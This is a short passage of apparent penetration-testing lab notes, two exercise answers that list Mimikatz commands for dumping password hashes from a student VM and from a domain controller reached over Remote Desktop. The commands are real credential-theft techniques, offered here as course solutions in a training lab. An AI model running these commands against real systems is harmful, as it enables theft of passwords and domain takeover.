



### 21.3.3.1 Exercises
#### 1. Use Mimikatz to dump all password hashes from the student VM.

```powershell
# Run SeDebugPrivilege to interact with process owned by another account
privilege::debug 
# Dump creds of all logged-on users with SecureLSA module
sekurlsa::logonpasswords
```



#### 2. Log in to the domain controller as the Jeff_Admin account through Remote Desktop and use Mimikatz to dump all password hashes from the server.



```powershell
privilege::debug
lsadump::lsa /inject
```

